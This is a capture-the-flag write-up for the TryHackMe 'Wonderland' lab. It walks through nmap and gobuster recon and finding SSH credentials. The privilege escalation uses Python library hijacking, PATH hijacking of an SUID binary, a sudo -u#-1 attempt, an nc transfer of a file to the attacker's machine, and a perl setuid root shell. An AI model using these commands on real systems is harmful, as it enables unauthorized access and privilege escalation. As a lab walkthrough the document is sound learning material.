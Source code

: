 # Wonderland

[Play](https://tryhackme.com/room/wonderland)

## 1. Recon

```
❯ nmap -script=default -sV -A -T4 10.10.133.60
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-26 21:51 EST
Nmap scan report for 10.10.133.60
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.75 seconds
```

```
❯ gobuster dir -u 10.10.133.60 -w "/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt" -x "txt,html,php"
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.133.60
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,html,php
[+] Timeout:        10s
===============================================================
2021/02/26 21:50:59 Starting gobuster
===============================================================
/index.html (Status: 301)
/img (Status: 301)
/r (Status: 301)
```

In `/img/` i first tried downloading the images and doing `strings`, I could not find anything interesting. Onto `/r/`. It says 

![](https://i.imgur.com/WDNs790.png)


Interesting. However, source shows nothing special here, and now I am stuck. But it does ask to go *somewhere*. On a pure whim, I did:

`http://10.10.133.60/r/a/b/b/i/t/`

very nice. One can also run gobuster with the url: `http://10.10.133.60/r/` and keep on getting the letters.

![](https://i.imgur.com/wXwyzP3.png)

So now we want to go to the left. How? Well lets do `http://10.10.133.60/r/a/b/b/i/`

![](https://i.imgur.com/EYBLHOF.png)

The story continues!

![](https://i.imgur.com/4J1i4TS.png)

After looking at some more, I realise: wait ... I've been going in the opposite direction! To quote:

> "Oh, you’re sure to do that," said the Cat, "if you only walk long enough."

So we must go on ... but where? I don't know. 

I was stuck for a while, and then stumbled upon the fact that its ssh `username:password`. "Open the door" makes sense now lmao.

## 2. Foothold

I'm in!

```
alice@wonderland:~$ ls
root.txt  walrus_and_the_carpenter.py
alice@wonderland:~$ cat root.txt
cat: root.txt: Permission denied
alice@wonderland:~$ whoami
alice
alice@wonderland:~$ pwd
/home/alice
```

Okay so the walrus thing is apparently a poem. The script is supposed to spew 10 random lines. very helpful.


```
alice@wonderland:/home$ ls
alice  hatter  rabbit  tryhackme
alice@wonderland:/home$ cd rabbit/
-bash: cd: rabbit/: Permission denied
alice@wonderland:/home$ cd hatter/
-bash: cd: hatter/: Permission denied
alice@wonderland:/home$ cd tryhackme/
-bash: cd: tryhackme/: Permission denied
```

I tried locating `user.txt`, but I can't `locate` anything. Looking at the hint on TryHackMe, it could be in `/root/user.txt`. It is!

```
rabbit@wonderland:/home/rabbit$ cat /root/user.txt
thm{:stonks:}
```

## 3. Priv Esc

We may need to get into the rabbit one. Meanwhile, let's check what we can sudo:

```
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Ah so we can execute the script as rabbit. `alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`

This means we can spawn a shell as rabbit!

But ... we do not have any permissions to write the file. So how? Well, this is something called **python library hijacking**. Take a wild guess to what we are going to do.

Yeah, create a file called `random.py`, essentially overriding the actual random library. Lesgooo!

`random.py` looks as: `import pty; pty.spawn("/bin/bash")`. easy.

Executing, we have:
```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 
rabbit@wonderland:~$ 
```

YES! okay so we see:
```
rabbit@wonderland:/home/rabbit$ ls
teaParty
```

which has a set bit ...!?

```
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Sat, 27 Feb 2021 05:19:12 +0000
Ask very nicely, and I will give you some tea while you wait for him

Segmentation fault (core dumped)
```

This may include some reverse engineering. Anyways, linpeas gave us this:

```
[+] Sudo version
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                                                         
Sudo version 1.8.21p2 
```

However, 

```
rabbit@wonderland:/home/rabbit$ sudo -u#-1 /bin/bash
sudo: unknown user: #-1
sudo: unable to initialize policy plugin
```

So, back to reverse engineering it is! I wanted to start off with `strings`, but it does not want to work, since strings is not present on that machine. So, I need to transfer the file to my machine, then extract out the information I need.

For this, we start `nc` on both; 

`rabbit@wonderland:/home/rabbit$ nc 10.8.150.214 1234 < teaParty`

Explaination: netcat tries to connect to the IP `10.8.150.214` on the port `1234` using `TCP`, and takes in the file as the input.

`❯ nc -lnvp 1234 > temp`

Explaination: netcat *listens* on the port `1234` on your machine, outputting all the contents into a file called `temp`.

Ok! Doing strings, we see: `/bin/echo -n 'Probably by ' && date --date='next hour' -R`

We can make use of the `date` library in C. Also, no matter our input, we get `Segmentation fault (core dumped)`, as its in the string. Very sneaky! Now, we want it to execute the `date` file. We can just write: `bash` in it and make it executable by using `chmod +x date`.

```
rabbit@wonderland:/home/rabbit$ PATH=/home/rabbit:$PATH ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
```

:D Inside of `/home/hatter`, we get

```
hatter@wonderland:/home/hatter$ cat password.txt 
<PASSWORD>
```

Now, we can login as hatter normally, instead of this convoluted mess. 

(We are still in alice's random's rabbit's teaParty shell lmao)

Okay take a deep breath in. Fresh shell! However ...

```
hatter@wonderland:~$ sudo -l
[sudo] password for hatter: 
Sorry, user hatter may not run sudo on wonderland.
```

SMH.

Time for linpeas again!

```
❯ scp ~/Desktop/Tools/linpeas.sh hatter@10.10.27.106:~
hatter@10.10.27.106's password: 
linpeas.sh                    100%  313KB 188.7KB/s   00:01    
```

Okay so the below pops out, talking about suid bit setting capabilities:

```
Files with capabilities:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

Perl looks tasty, so [gtfobins](https://gtfobins.github.io/gtfobins/perl/#capabilities) tells us the following.

`cp $(which perl) .`

```
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whoami
root
```

EASY!
